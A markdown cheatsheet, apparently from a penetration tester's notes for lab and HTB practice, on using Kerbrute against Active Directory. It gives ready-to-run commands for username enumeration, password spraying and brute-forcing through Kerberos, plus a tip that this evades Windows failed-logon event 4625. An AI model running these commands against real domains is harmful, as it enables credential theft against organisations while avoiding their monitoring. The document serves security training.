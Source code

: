 # Kerbrute Cheatsheet
 For more information on the mechanics of Kerberos  [[Active-Directory-Kerberos-Authenication-Defined]] and [[Attacking-Kerberos]].
 
Kerbrute go install method `go install github.com/ropnop/kerbrute@latest`  
[Kerbrute precompiled](https://github.com/ropnop/kerbrute/releases)

Kerbrute has three main commands:

-   **bruteuser** - Bruteforce a single user's password from a wordlist
-   **bruteforce** - Read username:password combos from a file or stdin and test them
-   **passwordspray** - Test a single password against a list of users
-   **userenum** - Enumerate valid domain usernames via Kerberos
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /path/to/wordlist/usernames.txt`


Bruteforcing Windows passwords with Kerberos is much faster than any other approach and potentially stealthier since pre-authentication failures do not trigger that  "traditional" An account failed to log on event 4625. With Kerberos, you can validate  # a username or test a login by only sending one UDP frame to the KDC (Domain Controller) 

```bash
# User enum (valid/invalid) 
./kerbrute_linux_amd64 userenum  -dc dc-domain -d lab.ropnop.com usernames.txt  
# Password spraying 
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123  # Brute force one user (take care of policy!) 
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com passwords.lst thoffman  
# General bruteforce (from username:password wordlist or from stdin) 
./kerbrute -d lab.ropnop.com bruteforce -`
```


If issues with kerberos trying syncing time to KDC host
```bash
sudo apt install ntpdate
sudo ntpdate $dc_ip
```
[Alh4zr3d's HTB search stream](https://www.youtube.com/watch?v=OEu3sXFUCP0)


## References

[Haak9](https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/)